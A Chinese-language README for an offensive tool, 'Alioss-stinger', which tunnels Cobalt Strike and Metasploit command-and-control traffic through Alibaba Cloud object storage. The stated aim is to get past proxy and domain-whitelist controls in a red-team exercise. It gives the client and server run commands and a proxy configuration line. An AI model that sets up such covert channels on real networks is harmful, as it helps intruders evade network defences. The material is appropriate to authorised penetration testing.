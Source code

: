 # Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

修改39行就好，加入内网代理服务器

```
ossClient, err = oss.New(endPoint, accessKeyId, accessKeySecret, oss.AuthProxy("http://127.0.0.1:8080", "", ""))
```

## 如何使用

```
PS C:\Users\xxx\Desktop\github\goalioss-stinger> go run .\main.go -h
Usage of C:\Users\xxx\AppData\Local\Temp\go-build3967568892\b001\exe\main.exe:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName
```

### CS

生成监听本地127.0.0.1:8001的木马：

![image-20221214185423368](README.assets/image-20221214185423368.png)

### 服务端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

![image-20221214185022534](README.assets/image-20221214185022534.png)

# 阿里云安全配置
按照这个配置就可以了。
https://www.yuque.com/pantom/netsecnote/kyqg65wkmxycfhei

